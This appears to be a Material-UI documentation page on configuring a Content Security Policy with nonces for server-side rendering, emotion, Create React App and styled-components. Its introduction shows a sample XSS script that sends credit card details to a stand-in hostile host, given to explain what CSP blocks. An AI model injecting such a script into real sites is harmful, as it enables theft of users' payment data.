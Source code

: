 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material-UI (and emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to the emotion cache so it can add it to subsequent `<style>`.

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
